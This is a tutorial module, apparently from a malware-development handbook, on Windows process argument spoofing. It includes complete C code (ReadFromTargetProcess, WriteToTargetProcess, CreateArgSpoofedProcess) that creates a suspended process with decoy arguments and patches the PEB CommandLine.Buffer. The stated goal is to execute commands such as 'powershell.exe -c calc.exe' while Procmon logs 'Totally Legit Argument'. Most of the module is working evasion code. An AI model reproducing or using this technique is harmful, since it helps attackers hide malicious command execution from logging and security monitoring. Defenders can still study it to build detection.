



Introduction
Process argument spoofing is a technique used to conceal the command line argument of a newly spawned process in order to facilitate the execution of commands without revealing them to logging services, such as Procmon.
The image below shows the command powershell.exe -c calc.exe being logged by Procmon. The objective of this module is to run powershell.exe -c calc.exe without it being successfully logged to Procmon.

PEB Review
The first step to performing argument spoofing is to understand where the arguments are being stored inside the process. Recall the PEB structure which was explained at the start of the handbook, it holds information about a process. To be more specific, the RTL_USER_PROCESS_PARAMETERS structure inside the PEB contains the CommandLine member which holds the command line arguments. The RTL_USER_PROCESS_PARAMETERS structure is shown below.
typedef struct _RTL_USER_PROCESS_PARAMETERS {
BYTE Reserved1[16];
PVOID Reserved2[10];
UNICODE_STRING ImagePathName;
UNICODE_STRING CommandLine;
} RTL_USER_PROCESS_PARAMETERS, *PRTL_USER_PROCESS_PARAMETERS;CommandLine is defined as a UNICODE_STRING.
UNICODE_STRING Structure
The UNICODE_STRUCTURE structure is shown below.
typedef struct _UNICODE_STRING {
USHORT Length;
USHORT MaximumLength;
PWSTR Buffer;
} UNICODE_STRING, *PUNICODE_STRING;The Buffer element will contain the contents of the command line arguments. With this in mind, it's possible to access the command line arguments using PEB->ProcessParameters.CommandLine.Buffer as a wide-character string.
How To Spoof Process Arguments
To perform spoofing of command line arguments, one must first create a target process in a suspended state, passing dummy arguments that are not considered suspicious. Before resuming the process, the PEB->ProcessParameters.CommandLine.Buffer string needs to be patched with the desired payload string, which will cause logging services to log the dummy arguments instead of the actual command line arguments that are going to be executed. To carry out this procedure, the following steps must be taken:
PEB address of the created process.PEB structure from the created process.PEB->ProcessParameters structure from the created process.ProcessParameters.CommandLine.Buffer, and overwrite with the payload to execute.The length of the payload argument written to Peb->ProcessParameters.CommandLine.Buffer at runtime must be smaller than or equal to the length of the dummy argument created during the suspended process creation. If the real argument is larger, it may overwrite bytes outside the dummy argument, resulting in the process crashing. To avoid this, always ensure that the dummy argument is larger than the argument that will be executed.
Retrieving Remote PEB Address
Retrieving the PEB address of the remote process requires the use of NtQueryInformationProcess with the ProcessBasicInformation flag.

As noted in the documentation, when the ProcessBasicInformation flag is used, NtQueryInformationProcess will return a PROCESS_BASIC_INFORMATION structure that looks like this:
typedef struct _PROCESS_BASIC_INFORMATION {
NTSTATUS ExitStatus;
PPEB PebBaseAddress; // Points to a PEB structure.
ULONG_PTR AffinityMask;
KPRIORITY BasePriority;
ULONG_PTR UniqueProcessId;
ULONG_PTR InheritedFromUniqueProcessId;
} PROCESS_BASIC_INFORMATION;Note that since NtQueryInformationProcess is a syscall it needs to be called using GetModuleHandle and GetProcAddress as shown in previous modules.
Reading Remote PEB Structure
After retrieving the PEB address for the remote process, it's possible to read the PEB structure using ReadProcessMemory WinAPI which is shown below.
BOOL ReadProcessMemory(
[in] HANDLE hProcess,
[in] LPCVOID lpBaseAddress,
[out] LPVOID lpBuffer,
[in] SIZE_T nSize,
[out] SIZE_T *lpNumberOfBytesRead
);ReadProcessMemory is used to read data from a specified address that is specified in the lpBaseAddress parameter. The function must be invoked twice:
NtQueryInformationProcess's output. This is passed in the lpBaseAddress parameter.RTL_USER_PROCESS_PARAMETERS structure, passing its address to the lpBaseAddress parameter. Note that RTL_USER_PROCESS_PARAMETERS is found within the PEB structure during the first invocation. Recall that this structure contains the CommandLine member which is required to perform argument spoofing.RTL_USER_PROCESS_PARAMETERS Size
When reading the RTL_USER_PROCESS_PARAMETERS structure, it is necessary to read more bytes than sizeof(RTL_USER_PROCESS_PARAMETERS). This is because the real size of this structure depends on the dummy argument's size. To ensure the entire structure is read, additional bytes should be read. This is done in the code sample where an additional 225 bytes are read.
Patching CommandLine.Buffer
Having obtained the RTL_USER_PROCESS_PARAMETERS structure, it's possible to access and patch CommandLine.Buffer. To do so, WriteProcessMemory WinAPI will be used, which is shown below.
BOOL WriteProcessMemory(
[in] HANDLE hProcess,
[in] LPVOID lpBaseAddress, // What is being overwritten (CommandLine.Buffer)
[in] LPCVOID lpBuffer, // What is being written (new process argument)
[in] SIZE_T nSize,
[out] SIZE_T *lpNumberOfBytesWritten
);lpBaseAddress should be set to what is being overwritten, which in this case is CommandLine.Buffer.lpBuffer is the data that will be overwriting the dummy arguments. It should be a wide char string to replace CommandLine.Buffer which is also a wide char string.nSize parameter is the size of the buffer to write in bytes. It should be equal to the length of the string that's being written multiplied by the size of WCHAR plus 1 (for the null character).lstrlenW(NewArgument) * sizeof(WCHAR) + 1Helper Functions
The code in this module makes use of two helper functions that read and write from and to the target process.
ReadFromTargetProcess Function
The ReadFromTargetProcess helper function will return an allocated heap that contains the buffer read from the target process. First it will read the PEB structure and then use it to retrieve the RTL_USER_PROCESS_PARAMETERS structure. The ReadFromTargetProcess function is shown below.
BOOL ReadFromTargetProcess(IN HANDLE hProcess, IN PVOID pAddress, OUT PVOID* ppReadBuffer, IN DWORD dwBufferSize) {
SIZE_T sNmbrOfBytesRead = NULL;
*ppReadBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwBufferSize);
if (!ReadProcessMemory(hProcess, pAddress, *ppReadBuffer, dwBufferSize, &sNmbrOfBytesRead) || sNmbrOfBytesRead != dwBufferSize){
printf("[!] ReadProcessMemory Failed With Error : %d \n", GetLastError());
printf("[i] Bytes Read : %d Of %d \n", sNmbrOfBytesRead, dwBufferSize);
return FALSE;
}
return TRUE;
}WriteToTargetProcess Function
The WriteToTargetProcess helper function will pass the appropriate parameters to WriteProcessMemory and check the output. The WriteToTargetProcess function is shown below.
BOOL WriteToTargetProcess(IN HANDLE hProcess, IN PVOID pAddressToWriteTo, IN PVOID pBuffer, IN DWORD dwBufferSize) {
SIZE_T sNmbrOfBytesWritten = NULL;
if (!WriteProcessMemory(hProcess, pAddressToWriteTo, pBuffer, dwBufferSize, &sNmbrOfBytesWritten) || sNmbrOfBytesWritten != dwBufferSize) {
printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
printf("[i] Bytes Written : %d Of %d \n", sNmbrOfBytesWritten, dwBufferSize);
return FALSE;
}
return TRUE;
}Process Argument Spoofing Function
CreateArgSpoofedProcess is a function that performs argument spoofing on a newly created process. The function requires 5 arguments:
szStartupArgs - The dummy arguments. These should be benign.szRealArgs - The real arguments to execute.dwProcessId - A pointer to a DWORD that receives the PID.hProcess - A pointer to a HANDLE that receives the process handle.hThread - A pointer to a DWORD that receives the process's thread handle.BOOL CreateArgSpoofedProcess(IN LPWSTR szStartupArgs, IN LPWSTR szRealArgs, OUT DWORD* dwProcessId, OUT HANDLE* hProcess, OUT HANDLE* hThread) {
NTSTATUS STATUS = NULL;
WCHAR szProcess [MAX_PATH];
STARTUPINFOW Si = { 0 };
PROCESS_INFORMATION Pi = { 0 };
PROCESS_BASIC_INFORMATION PBI = { 0 };
ULONG uRetern = NULL;
PPEB pPeb = NULL;
PRTL_USER_PROCESS_PARAMETERS pParms = NULL;
RtlSecureZeroMemory(&Si, sizeof(STARTUPINFOW));
RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));
Si.cb = sizeof(STARTUPINFOW);
// Getting the address of the NtQueryInformationProcess function
fnNtQueryInformationProcess pNtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandleW(L"NTDLL"), "NtQueryInformationProcess");
if (pNtQueryInformationProcess == NULL)
return FALSE;
lstrcpyW(szProcess, szStartupArgs);
if (!CreateProcessW(
NULL,
szProcess,
NULL,
NULL,
FALSE,
CREATE_SUSPENDED | CREATE_NO_WINDOW, // creating the process suspended & with no window
NULL,
L"C:\\Windows\\System32\\", // we can use GetEnvironmentVariableW to get this Programmatically
&Si,
&Pi)) {
printf("\t[!] CreateProcessA Failed with Error : %d \n", GetLastError());
return FALSE;
}
// Getting the PROCESS_BASIC_INFORMATION structure of the remote process which contains the PEB address
if ((STATUS = pNtQueryInformationProcess(Pi.hProcess, ProcessBasicInformation, &PBI, sizeof(PROCESS_BASIC_INFORMATION), &uRetern)) != 0) {
printf("\t[!] NtQueryInformationProcess Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
// Reading the PEB structure from its base address in the remote process
if (!ReadFromTargetProcess(Pi.hProcess, PBI.PebBaseAddress, &pPeb, sizeof(PEB))) {
printf("\t[!] Failed To Read Target's Process Peb \n");
return FALSE;
}
// Reading the RTL_USER_PROCESS_PARAMETERS structure from the PEB of the remote process
// Read an extra 0xFF bytes to ensure we have reached the CommandLine.Buffer pointer
// 0xFF is 255 but it can be whatever you like
if (!ReadFromTargetProcess(Pi.hProcess, pPeb->ProcessParameters, &pParms, sizeof(RTL_USER_PROCESS_PARAMETERS) + 0xFF)) {
printf("\t[!] Failed To Read Target's Process ProcessParameters \n");
return FALSE;
}
// Writing the real argument to the process
if (!WriteToTargetProcess(Pi.hProcess, (PVOID)pParms->CommandLine.Buffer, (PVOID)szRealArgs, (DWORD)(lstrlenW(szRealArgs) * sizeof(WCHAR) + 1))) {
printf("\t[!] Failed To Write The Real Parameters\n");
return FALSE;
}
// Cleaning up
HeapFree(GetProcessHeap(), NULL, pPeb);
HeapFree(GetProcessHeap(), NULL, pParms);
// Resuming the process with the new paramters
ResumeThread(Pi.hThread);
// Saving output parameters
*dwProcessId = Pi.dwProcessId;
*hProcess = Pi.hProcess;
*hThread = Pi.hThread;
// Checking if everything is valid
if (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL)
return TRUE;
return FALSE;
}Demo
powershell.exe Totally Legit Argument is the dummy argument that will be logged whereas powershell.exe -c calc.exe is the payload that is executed.
